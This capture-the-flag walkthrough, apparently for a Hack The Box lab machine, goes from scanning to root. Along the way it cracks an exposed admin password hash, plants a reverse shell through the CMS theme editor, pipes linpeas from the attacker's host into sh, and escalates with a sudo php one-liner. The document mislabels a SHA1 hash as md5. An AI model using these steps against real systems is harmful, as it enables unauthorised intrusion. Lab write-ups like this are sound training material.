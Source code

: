 ##   Knowledge Check

Tips

Methodology
- Enumeration Scanning
- Exploitation
- Privilege Escalation 

## Steps
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Enumeration/Scanning with Nmap - perform a quick scan for open ports followed by a full port scan

Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include whatweb and Gobuster

If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.

After identifying the technologies in use, use a tool such as Searchsploit to find public exploits or search on Google for manual exploitation techniques

After gaining an initial foothold, use the Python3 pty trick to upgrade to a pseudo TTY

Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials

Organize this data offline to determine the various ways to escalate privileges to root on this target

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
1. sudo -sV -sC -O --min-rate=1000 --script=http-enum --top-ports=5000 -o nmapscan -vv

2. gobuster dir -u http://10.129.121.73 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o directories

\\ found /admin/, /backups/, /data/, /plugins/, /robots.txt/, index.html 

http://gettingstarted.htb/data/users/admin.xml -> admin:d033e22ae348aeb5660fc2140aec35850c4da997 | decode it as md5 -> admin:admin

3. login with admin:admin under this path http://gettingstarted.htb/admin/

4.  found /theme/ directory and u can edit the theme from the admin panel 
http://gettingstarted.htb/admin/theme-edit.php | and write a reverse shell on the theme [ pentest monkey ]

after editing the theme visit the uploaded theme under http://gettingstarted.htb/theme/Innovation/template.php and open a listener nc -nvlp 9001


5. got a reverse shell 
cd /home
cd mrb3n 
cat user.txt

6. privilege escalation
open a python3 local server on attacker machine
python3 -m http.server 8000 and download linpeas.sh on it

download linpeas on target machine
curl http://LOCAL_IP:8000/linpeas.sh | sh

after downloading linpeas.sh and run sudo -l found that user can run all commands under the /usr/bin/php
User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
    
 so go to https://gtfobins.github.io/gtfobins/php/#sudo


and enter these commands on target machine 

CMD="/bin/sh"
sudo php -r "system('$CMD');"

whoami -> root 
cd /root
cat root.txt
flag: f1fba6e9f71efb2630e6e34da6387842
